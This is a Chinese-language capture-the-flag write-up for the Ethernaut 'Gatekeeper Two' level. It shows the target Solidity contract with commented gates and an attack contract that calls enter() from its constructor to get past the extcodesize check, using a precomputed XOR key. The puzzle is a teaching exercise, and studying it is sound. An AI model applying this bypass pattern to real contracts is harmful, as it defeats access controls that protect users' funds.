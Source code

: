 ### 第十四题 Gatekeeper Two
### 题目
注册为参赛者来完成这一关
### 提示
- 想一想你从上一个守门人那学到了什么.
- 第二个门中的 assembly 关键词可以让一个合约访问非原生的 vanilla solidity 功能. 参见 Solidity Assembly . extcodesize 函数可以用来得到给定地址合约的代码长度 - 你可以在这个页面学习到更多 yellow paper.
- ^ 符号在第三个门里是位操作 (XOR), 在这里是代表另一个常见的位操作 (参见 Solidity cheatsheet). Coin Flip 关卡也是一个很好的参考.
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        //assembly：这是Solidity中的一个关键字，用于编写内联汇编代码。
        //内联汇编允许你直接在Solidity代码中编写EVM（以太坊虚拟机）指令，以实现更低级别的操作。
        assembly {
        //extcodesize(caller()) 返回调用者地址的代码大小。如果调用者是一个合约地址，则返回其代码大小；
        //如果调用者是一个普通地址（外部账户），则返回 0。
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        //keccak256(abi.encodePacked(msg.sender))：哈希函数，将 msg.sender编码并计算其 Keccak-256 哈希值
        //type(uint64).max：这是 uint64 类型的最大值，即 2^64 - 1
        //这行代码的作用是确保 uint64 类型的哈希值与 _gateKey 进行异或运算后的结果等于 uint64 类型的最大值。
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
### 解题思路&过程
大致同第一题，攻击代码:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract attack {
    constructor(address _victim) {
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = _victim.call(payload);
        require(success, "failed somewhere...");
    }
}
```
